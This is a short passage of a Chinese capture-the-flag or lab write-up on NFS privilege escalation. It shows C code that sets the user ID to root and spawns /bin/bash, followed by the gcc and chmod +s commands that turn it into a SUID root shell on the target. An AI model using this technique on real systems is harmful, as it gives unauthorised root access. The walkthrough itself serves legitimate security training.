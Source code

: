 #### NFS 提权

后来看到其他师傅的博客发现还有另一个提权方法，参考[https://xz.aliyun.com/t/11664?time\_\_1311=mqmx0DBDuDcD2QD9DBuQ1GkQrPxMR8DArD中的NFS提权。](https://xz.aliyun.com/t/11664?time__1311=mqmx0DBDuDcD2QD9DBuQ1GkQrPxMR8DArD%E4%B8%AD%E7%9A%84NFS%E6%8F%90%E6%9D%83%E3%80%82)

首先在靶机上写入一个 c 文件。

```plain
#include<unistd.h>
void main()
{
        setuid(0);
        setgid(0);
        system("/bin/bash");
}
```

进行赋权和编译

```plain
chmod -s shell.c

 gcc shell.c -o shell

 chmod +s shell
```

此时可以看到已具有 SUID 权限

[![](assets/1706496403-38120f56a0c808c12ae9461519205320.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240127121349-7916a440-bcca-1.png)
